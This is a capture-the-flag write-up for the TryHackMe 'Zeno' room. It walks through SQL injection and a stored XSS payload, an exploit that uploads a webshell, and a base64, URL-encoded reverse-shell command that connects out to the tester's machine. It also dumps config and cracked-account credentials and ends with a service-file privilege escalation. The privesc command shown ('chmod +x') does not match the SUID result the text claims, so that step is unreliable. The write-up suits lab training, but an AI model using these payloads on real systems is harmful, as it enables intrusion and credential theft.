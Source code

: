 ##### Room Name: [Zeno](https://tryhackme.com/room/zeno)
##### Difficulty: Medium
##### Room Description: Do you have the same patience as the great stoic philosopher Zeno? Try it out!
---

## Enumeration

There was some problem with nmap and because of that it wasn't able to show all the open ports. [Rushi](https://iamrushi.cf/) suggested to me that I use Rustscan.
### Rustscan

![img-rustscan](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/rustscan.png)

Found few more ports. So now I redid the nmap scan on these ports:
```js
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open     http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
22582/tcp filtered unknown
22622/tcp filtered unknown
```

### The web server
Directory busting:
```js
/index.html (Status: 200)
/rms (Status: 301)
```
/index.html does not return anything useful. /rms is Restaurant Management System.
After exploring the website with burp proxy on in the background, I have found a few parameterized requests.
We can do SQLi in the delete order query:
` http://10.10.200.163:12340/rms/delete-order.php?id=0' or 1-- - `

### sqlmap
We have time based SQLi. After some time, here is the info:
* Database Name: dbrms
* Found some tables: 
  
![img-sqlmap-tables](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/sqlmap-tables.png)


I couldn't find anything useful from the database. And it takes a lot of time. So let's see if there's other vulnerabilities.
The website displays the username(first-name). Try checking for xss and SSTI
Could not find SSTI but it has stored XSS. Set the payload to ` ${{4*4}}<img src=x onerror=alert(1)> `

![img-stored-xss](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/stored-xss.png)

Let's see if we can steal the cookies of other users. Upload a cookie stealer payload this time.
![img-cookie-stealer](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/cookie-stealer.png)

Now I logged in with this account and, did some actions on the website in hopes of getting a hit by other users so that I can grab their cookies. I did not get any hits. So its safe to say that there's no other user that would visit my profile. Let's check for other exploits.

### Searching for exploits:
Search for Restaurant Management System exploits in searchsploit.

![img-rms-exploit](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/rms-exploit.png)

We get a webshell uploaded. Use the `?cmd= param` for command execution.

Use this payload in URL encoded form:
`echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash`

The payload after url encoding will be:
```
%65%63%68%6f%20%4c%32%4a%70%62%69%39%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4e%43%34%78%4e%43%34%33%4f%43%38%34%4d%43%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
```

### Got a shell. Now what?

After getting a shell, I found a config file `/var/www/html/rms/connection/config.php` that contains passwords.

```php
bash-4.2$ pwd
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
```

### Mysql database enumeration

In the database, there is a table named `members`. It contains some password hashes and answer hashes. I cracked a few of them

Here are the cracked hashes and passwords:
```md
Username|Email|Password|Security Answer
Stephen|omolewastephen@gmail.com|1234|deborah
john|jsmith@sample.com|jsmith123|middlename
edward|edward@zeno.com|COULD NOT CRACK|COULD NOT CRACK
```

I tried these passwords on edward's account but couldn't login.

### Linpeas
Now let's run Linpeas

![img-linpeas](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/linpeas.png)

We have write privileges on `/etc/systemd/system/zeno-monitoring.service`
Also found new creds.
username=**zeno**,password=**FrobjoodAdkoonceanJa**

Tried `sudo -l` with this password but it did not work.
Let's try editing the service file

### Service file misconfiguration to root

Let's add the SUID bit on `/bin/bash` for an easy privesc. Change the ExecStart to the following as shown below:
```
ExecStart=/usr/bin/chmod +x /bin/bash
```

![img-zeno-service](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/zeno-service.png)

Now when this service starts again, we will have a SUID `/bin/bash`. We can make that happen if we can somehow restart it. But we don't have permissions to do that as a low privileged user. Another way to make it happen is if we can somehow reboot the system.
I tried to reboot the system but couldn't. It required root privileges to reboot.

Let's try the password found earlier (`FrobjoodAdkoonceanJa`) on user `edward`. We successfully login as edward 🎉
Checking for `sudo -l` permissions on edward, we see that he can reboot the system.

![img-edward-sudo](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/edward-sudo.png)

Reboot the machine with `sudo /usr/sbin/reboot` and now when the system is fully rebooted, login as edward through ssh. We now have a SUID `/bin/bash`. Use it to escalate privileges to **root**

![img-root](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/Zeno/images/root.png)

